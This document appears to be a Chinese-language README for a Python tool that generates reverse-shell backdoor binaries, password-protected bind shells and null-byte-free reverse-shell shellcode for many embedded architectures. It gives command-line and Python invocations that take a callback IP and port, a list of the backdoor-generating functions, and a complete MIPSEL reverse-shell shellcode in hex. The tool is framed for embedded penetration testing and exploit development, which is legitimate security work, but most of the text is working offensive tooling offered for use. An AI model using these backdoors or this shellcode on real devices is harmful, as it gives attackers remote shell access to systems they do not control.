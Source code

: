 # 简介

>在嵌入式设备的渗透和漏洞挖掘过程中，遇到了许多问题。一个是一些设备没有telnetd或ssh服务来获得交互式shell，一些设备被防火墙保护，无法与其正向连接需要reverse_shell，另一个是内存损坏漏洞（如堆栈溢出）通常是空字节截断，因此构造反向shell代码更麻烦，因此开发此工具是为了利用该漏洞。该工具基于PWN模块开发，目前使用python2语言， 语言已更新到python3，在python3下使用即可

### 功能

该工具嵌入到设备的安全测试中。有两个主要功能：
1. 生成各种架构的**后门程序**。后门程序是用反向shell汇编代码打包的，大小很小**现在支持Armv5、Armv7、Armv8、mipsel和mips，仍在更新中**
2. 在攻击过程中生成各种架构的**反向shell代码**，且无空字节，这有助于攻击嵌入式设备上的内存损坏漏洞**现在支持Armv5、Armv7、Armv8、mipsel和mips，mipsel64，aarch64，riscv64，仍在更新中**
3. 修复了reverse_shellcode和reverse_backdoor**端口选择过大**的一些错误，**在x86和x64**、**下增加了使用指定端口和密码生成bindshell的功能，并美化了生成过程****（此功能将更新到各种架构）**
4. 支持命令行生成后门和外壳代码，特点是轻便、小巧、高效、快速

### 安装
安装模块
**pip install hackebds**

```
pip install -U hackebds
```
### 安装问题
出现python如下图问题请安装对应的binutils环境
![image-20221107231221043](https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221107231221043.png)
#### 第一步
```
apt search binutils | grep arm(这里的arm可以更换需要的对应架构)
apt install binutils-arm-linux-gnueabi/hirsute
```
### 怎么使用
这里的ip地址与端口都是shell弹回的地址与port，导入此模块后pwn模块也会直接导入，无需再次导入
#### 1. 生成对应各种架构的后门程序，纯shellcode封装，回连shell成功概率大
32为程序bind_shell中密码最多4个字符，64位程序最多8个字符
使用命令行生成后门文件名、shell代码、binshell等
 ![image-20221107231221043](https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221107231221043.png)

   ```
   hackebds -reverse_ip 127.0.0.1 -reverse_port 8081 -arch armelv7 -res reverse_shellcode -passwd 1231
   ```

   ![image-20221102181217933](https://img-blog.csdnimg.cn/img_convert/8571f33df56a35983e368c777141ad54.png)
   ```
   hackebds -reverse_ip 127.0.0.1 -reverse_port 8081 -arch armelv7 -res reverse_shell_file
   ```
   ![image-20221102183017775](https://img-blog.csdnimg.cn/img_convert/660574b30d7ae810cc7b0d96a3a60bd2.png)

   ```
   hackebds -reverse_ip 0.0.0.0 -reverse_port 8081 -arch armelv7 -res bind_shell -passwd 1231
   ```
   ![image-20221102182939434](https://img-blog.csdnimg.cn/img_convert/05ebc0b42efcb42f58eef4815b3b08dc.png)


```
>>> from hackebds import *
>>> mipsel_backdoor(reverse_ip,reverse_port)
>>> mips_backdoor(reverse_ip,reverse_port)
>>> aarch64_backdoor(reverse_ip,reverse_port)
>>> armelv5_backdoor(reverse_ip,reverse_port)
>>> armelv7_backdoor(reverse_ip,reverse_port)
>>> armebv5_backdoor(reverse_ip,reverse_port)
>>> armebv7_backdoor(reverse_ip,reverse_port)
>>> x64el_backdoor(reverse_ip,reverse_port)
>>> x86el_backdoor(reverse_ip,reverse_port)
>>> mips64_backdoor(reverse_ip,reverse_port)
>>> mips64el_backdoor(reverse_ip,reverse_port)
>>> android_aarch64_backdoor(reverse_ip,reverse_port)
>>> x86_bind_shell(listen_port, passwd)
>>> x64_bind_shell(listen_port, passwd)
>>> mips64el_bind_shell(listen_port, passwd)
>>> mips64_bind_shell(listen_port, passwd)
```
列如:
```
>>> mipsel_backdoor("127.0.0.1",5566)
mipsel_backdoor is ok in current path ./
>>> 
```
![image-20221026181947194](https://img-blog.csdnimg.cn/img_convert/ad35bd8fc68cb44da974d7e28ac0cfe9.png)
```
>>> from hackebds import *
>>> x64_bind_shell(13000,"1235")
[+] bind port is set to 13000
[+] passwd is set to '1235'
[*] waiting 3s
[+] x64_bind_shell is ok in current path ./
```
![image-20221026182024685](https://img-blog.csdnimg.cn/img_convert/6d3d5e15bbaac7a91e98d290aa88c074.png)
#### 2. 生成对应各种架构的利用回连shellcode(no free无空字节
```
>>> from hackebds import *
>>> mipsel_reverse_sl(reverse_ip,reverse_port)
>>> mips_reverse_sl(reverse_ip,reverse_port)
>>> aarch64_reverse_sl(reverse_ip,reverse_port)
>>> armelv5_reverse_sl(reverse_ip,reverse_port)
>>> armelv7_reverse_sl(reverse_ip,reverse_port)
>>> armebv5_reverse_sl(reverse_ip,reverse_port)
>>> armebv7_backdoor(reverse_ip,reverse_port)
>>> mips64_reverse_sl(reverse_ip,reverse_port)
>>> mips64el_reverse_sl(reverse_ip,reverse_port)
>>> x86_reverse_sl(reverse_ip,reverse_port)
>>> x64_reverse_sl(reverse_ip,reverse_port)
```
列如:
```
>>> from hackebds import *
>>> shellcode=mipsel_reverse_sl("127.0.0.1",5566)
[+] No NULL byte shellcode for hex(len is 264):
\xfd\xff\x19\x24\x27\x20\x20\x03\xff\xff\x06\x28\x57\x10\x02\x34\xfc\xff\xa4\xaf\xfc\xff\xa5\x8f\x0c\x01\x01\x01\xfc\xff\xa2\xaf\xfc\xff\xb0\x8f\xea\x41\x19\x3c\xfd\xff\x39\x37\x27\x48\x20\x03\xf8\xff\xa9\xaf\xff\xfe\x19\x3c\x80\xff\x39\x37\x27\x48\x20\x03\xfc\xff\xa9\xaf\xf8\xff\xbd\x27\xfc\xff\xb0\xaf\xfc\xff\xa4\x8f\x20\x28\xa0\x03\xef\xff\x19\x24\x27\x30\x20\x03\x4a\x10\x02\x34\x0c\x01\x01\x01\xf7\xff\x85\x20\xdf\x0f\x02\x24\x0c\x01\x01\x01\xfe\xff\x19\x24\x27\x28\x20\x03\xdf\x0f\x02\x24\x0c\x01\x01\x01\xfd\xff\x19\x24\x27\x28\x20\x03\xdf\x0f\x02\x24\x0c\x01\x01\x01\x69\x6e\x09\x3c\x2f\x62\x29\x35\xf8\xff\xa9\xaf\x97\xff\x19\x3c\xd0\x8c\x39\x37\x27\x48\x20\x03\xfc\xff\xa9\xaf\xf8\xff\xbd\x27\x20\x20\xa0\x03\x69\x6e\x09\x3c\x2f\x62\x29\x35\xf4\xff\xa9\xaf\x97\xff\x19\x3c\xd0\x8c\x39\x37\x27\x48\x20\x03\xf8\xff\xa9\xaf\xfc\xff\xa0\xaf\xf4\xff\xbd\x27\xff\xff\x05\x28\xfc\xff\xa5\xaf\xfc\xff\xbd\x23\xfb\xff\x19\x24\x27\x28\x20\x03\x20\x28\xa5\x03\xfc\xff\xa5\xaf\xfc\xff\xbd\x23\x20\x28\xa0\x03\xff\xff\x06\x28\xab\x0f\x02\x34\x0c\x01\x01\x01
```
## 更新 
> 	2022.4.29 在hackebds-0.0.5中加入了对aarch64无空字节reverse_shellcode的支持
>
> 	2022.5.1  更新在引入模块后可以直接调用，减少代码量,更改对python3的支持
> 	
> 	2022.5.5  0.0.8版本解决了mips_reverse_sl与mipsel_reverse_sl反弹不了shell的bug加入了mips64大小端的后门与reverse_shell功能
> 	
> 	2022.5.21 0.0.9版本更改了armelv5后门生成的方式，加入了riscv-v64的后门指定生成
> 	
> 	2022.6.27 0.1.0 加入了安卓手机后门的生成
> 	
> 	2022.10.26 0.1.5修复了一些问题，并添加了一些bindshell指定端口密码的自动生成功能
> 	
> 	2022.11.2 0.2.0 支持命令行生成后门和外壳代码，特点是轻便、小巧、高效、快速
> 	
> 	2022.11.2 0.20 删除了shellcode的生成睡眠时间，并添加了mips_bind_Shell，与x86和x64小端Shell_Backdoor相反，这些mips预计会被mips_biind_Shelll中断，这解决了mips中bindshell中密码逻辑处理的错误问题
>
> 	2022.11.8 0.2.2 完善了后门，shellcode，bin_shell的生成修复了一些小错误，增加了学习模块指定型号即可生成对应内容。
>

## ​:beer:​ 享受hacking
